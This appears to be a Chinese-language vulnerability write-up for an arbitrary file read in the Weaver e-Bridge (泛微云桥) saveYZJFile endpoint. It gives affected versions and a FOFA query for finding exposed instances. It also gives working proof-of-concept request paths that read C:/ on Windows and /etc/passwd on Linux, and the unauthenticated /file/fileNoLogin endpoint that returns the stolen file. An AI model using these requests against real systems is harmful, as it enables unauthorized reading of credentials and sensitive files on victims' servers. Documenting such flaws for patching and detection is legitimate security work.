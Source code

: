 # 泛微OA E-Bridge saveYZJFile 任意文件读取漏洞

## 漏洞描述

泛微云桥（e-Bridge）是上海泛微公司在”互联网+”的背景下研发的一款用于桥接互联网开放资源与企业信息化系统的系统集成中间件。泛微云桥存在任意文件读取漏洞，攻击者成功利用该漏洞，可实现任意文件读取，获取敏感信息。

## 影响版本

<a-checkbox checked>泛微云桥 e-Bridge 2018-2019 多个版本</a-checkbox></br>

## FOFA

<a-checkbox checked>title="泛微云桥e-Bridge"</a-checkbox></br>

## 漏洞复现

```
# Windows验证POC

/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/&fileExt=txt
```

![img](../../../.vuepress/public/img/fanwei-1.png)



成功返回 **id值**,说明含有此漏洞

<a-alert type="success" message="调用查看文件接口访问 /file/fileNoLogin/id值" description="" showIcon>
</a-alert>
<br/>

![img](../../../.vuepress/public/img/fanwei-2.png)



### 

```
# Linux验证POC

/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt
```

![img](../../../.vuepress/public/img/fanwei-3.png)



成功返回 **id值**,说明含有此漏洞

调用查看文件接口访问 **http://xxx.xxx.xxx.xxx/file/fileNoLogin/id值**

![img](../../../.vuepress/public/img/fanwei-4.png)